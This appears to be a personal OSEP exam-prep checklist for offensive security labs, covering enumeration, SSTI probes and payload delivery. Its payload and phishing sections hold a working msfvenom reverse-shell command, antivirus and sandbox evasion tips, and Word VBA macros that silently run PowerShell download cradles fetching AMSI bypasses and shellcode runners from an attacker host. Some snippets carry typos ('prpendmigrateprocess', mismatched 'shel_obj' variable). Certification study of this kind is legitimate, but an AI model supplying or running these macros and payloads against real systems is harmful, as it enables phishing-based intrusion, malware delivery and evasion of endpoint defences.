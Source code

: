 # Checklist for OSEP

## Enumeration

[] Switch on your apache server
[] Identify External vs Internal vs Vault IPs
[] Full nmap scan (TCP + UDP) against External Hosts
[] Note hostnames and update /etc/hosts
[] Re-scan against hostnames
[] Hostnames usually mean something. Put a remark in the table. For e.g, note things like clients, devs, DB etc
[] Web Services should be fully enumerated with feroxbuster/gobuster.
	[] Check Source Code for possible reveal of tech stack (ie .NET Razer)
	[] Login pages for default creds
	[] Wordpress sites to be wpscan
	[] file upload pages to be tested
[] DevOps stuff like gitlab, Ansible, Artifactory should be noted down as they will likely play a part further on
[] If there are fields for user input, please try SQL Injection, SSTI payloads. SQLMap can be very useful. For SSTI payloads, run the following:
```bash
# basically if the math resolves, it is vulnerable to code execution
{{4*4}}
@(3+2)
<%= 3 * 2 %>
```

## Meterpreter Payload Creation

[] Use Get-Shellcode (https://github.com/gh0x0st/Get-Shellcode) to obfuscate ps1 meterpreter shellcode
[] Slot that nice obfuscated shellcode into your ps1 shellcode runner. Remember to update the variables accordingly in the rest of the code. This has a 100% success rate on all OSEP Challenge Labs (CowMotors and DenkiAir included)
[] if you are creating an .exe payload from csharp, use Sleep, non-emulated APIs (such as VirtualAllocExNuma) for sandbox evasion, use multiple byte XOR to encrypt your payload
[] same idea for VBA
[] for .hta code, it is jscript; XOR the shellcode, do dotnet2js, prepend an obfuscated jscript into the output .hta file from dotnet2js
[] for prependmigrate, you need to set it up as a msfvenom option when creating a payload. Note that explorer may not always work if the target user is not an interactive user (such as svc accounts, IIS blah blah)
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=<kali ip> lport=443 prpendmigrateprocess=explorer.exe prependmigrate=true -f exe > evil.exe
```

### Catching Meterpreter Shells

- x86 for MSWord vectors, x64 for everything else
- Consider setting AutoRunScript in the advanced options of exploit/multi/handler to run a process migration upon establishing the meterpreter shell to evade AV
- if it doesnt work, you may wish to use prepend migrate which is another form of migration but done earlier in the process of establishing the shell (might be more unstable but allegedly more evasive)
```
msf6 (exploit/multi/handler) > set AutoRunScript post/windows/manage/migrate
```

## Email Phishing Vector
[] Look out for hosts with smtp (Port 25 default) and see if there are any email addresses found
[] Use smtp-user-enum if unable to find email addresses


## MSDoc Phishing
[] if .doc related, start off with a simple ping payload to check connectivity and command execution
```vba
Sub MyMacro()
	Dim str As String
	str = "ping.exe <kali ip>"
	Shell str, vbHide
End Sub
```
[] if the above fires, use a powershell download cradle to fire off a meterpreter shell. Note that for MSWord, you need a x86 payload!
```vba
Sub MyMacro()
	Dim str As String
	str = "powershell.exe -nop -ep bypass -c IEX(New-Object System.Net.WebClient).Downloadstring('http://<kali ip>/amsi.txt')"
	str = "powershell.exe -nop -ep bypass -c IEX(New-Object System.Net.WebClient).Downloadstring('http://<kali ip>/simplerunner.txt')"
	Shell str, vbHide
End Sub
```
[] if (New-Object System.Net.WebClient) does not work you can use the following. Though if New-Object doesnt work, it is likely that IEX is disabled as well
```vba
Sub MyMacro()
	Set shel_obj = CreateObject("Wscript.Shell")
	shell_obj.Run "powershell.exe -ep bypass -c iwr http://kali/simplerunner.txt | IEX", 0
End Sub
```
[] if the above fails, likely powershell is restricted in some way or your meterpreter shell is caught (check for hits to your apache server)
[] Can consider a direct VBA Shellcode Runner (obfuscated shellcode) of course
[] if not, you can use get the VBA to download your compiled executable and execute it with InstalUtil


